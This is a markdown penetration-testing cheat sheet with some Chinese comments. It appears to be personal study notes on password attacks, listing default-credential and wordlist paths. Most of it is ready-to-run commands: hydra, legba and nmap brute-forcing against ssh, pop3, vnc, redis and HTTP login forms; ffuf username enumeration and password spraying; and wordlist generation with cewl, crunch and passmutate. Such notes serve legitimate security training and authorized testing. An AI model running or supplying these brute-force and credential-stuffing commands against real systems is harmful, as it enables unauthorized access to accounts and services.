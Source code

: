 
# Default Credentials
 - https://cirt.net/passwords
 - /usr/share/wordlists/seclists/Passwords/Default-Credentials/
# Common Wordlist
   Common Wordlists to use for Web Directory Scanning: 
   - /usr/share/wordlists/dirb/common.txt
   - /usr/share/wordlists/dirbuster/*.txt
   - /usr/share/wordlists/wfuzz/general/*.txt
   - /usr/share/seclists/Discovery/Web-Content/
   - Assetnote Wordlists: https://wordlists.assetnote.io/
   - Jhaddix Content Discovery: https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10
   
   Common Wordlists to use for User Enumeration Scanning: 
   
   - /usr/share/seclists/Usernames
   - /usr/share/wordlists/dirbuster/apache-user-enum-2.0

   Common Wordlists to use for Password Enumeration Scanning:
- /usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt
- /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt --> http
- /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt --> ftp
# Burte Force
## pop3/ssh/vnc
记得使用login as pass: 爆破时可能简单的admin:admin时不包括的
```bash
hydra -l {Username} -P {Big_Passwordlist} -f {IP} pop3 -V -e s
hydra -L user.txt -P pass.txt -f 192.168.211.224 ssh -V -t 4 -e s
hydra -L user.txt -P pass.txt -f vnc://192.168.154.220:5900 -e s


hydra -P /path/pass.txt redis://<IP>:<PORT> # 6379 is the default
#-e nsr; NoPassword; Login as Pass; Reverse Login
# Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```
## Legba
```bash
#redis
legba redis --target localhost:6379 --username admin --password data/passwords.txt [--redis-ssl]
```
## HTTP
### Nmap
```bash
# Common Weak password
# --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt
sudo nmap --script=http-brute -p80 172.16.0.0
sudo nmap --script=http-wordpress-brute -p80 172.16.0.0
#Script Arguments
	#http-brute.hostname
	#sets the host header in case of virtual hosting

#http-brute.method
	#sets the HTTP method to use (default: GET)

#http-brute.path
	#points to the path protected by authentication (default: /)

#Redis
nmap --script redis-brute -p 6379 <IP>
```
### ffuf
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.141.8/customers/signup -mr "username already exists"
# Passoword
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.141.8/customers/login -fc 200
```
### hydra
```bash
#POST
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
#GET
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.232.201 http-get "/:H=Cookie\: filemanager=16uiij07in9q453vdfka28ffir:A=BASIC:F=Unauthorized"
hydra -L tomcat_user -P /usr/share/wordlists/rockyou.txt http-get://192.168.117.101:8080/manager/html
```
# Rule-based Wordlist Mutation
## cewl && crunch
通过网站信息抓取创建基础词表，在使用crunch进行混淆生成基础的自适应词表(我说的)
```bash
cewl http://target-website.com -m 5 -w output_wordlist.txt
#-m 参数后面跟的数字表示最小单词长度，-w 参数后面跟的是输出文件的名称。
crunch 4 8 abc123 -o output_wordlist.txt
#这里的 4 和 8 是密码的最小和最大长度，abc123 是用于生成密码的字符集，-o 参数后面跟的是输出文件的名称。
```
## Passmutate && "trim"
[passmutate](https://github.com/kaimosec/passmutate)
1. 必须组件：**python3 -m pip install alive-progress**
2. 词表重组后
```bash
git clone https://github.com/kaimosec/passmutate.git
# 删除不符合条件的密码
sed -i '/^1/d' demo.txt #根据规则，密码不得以数字开头。^1: 以1开头的行；d: 删除 -i原地编辑

while read keyword; do
  crunch 8 8 -t ${keyword}%% -o "${keyword}_list.txt"
done < keywords.txt
```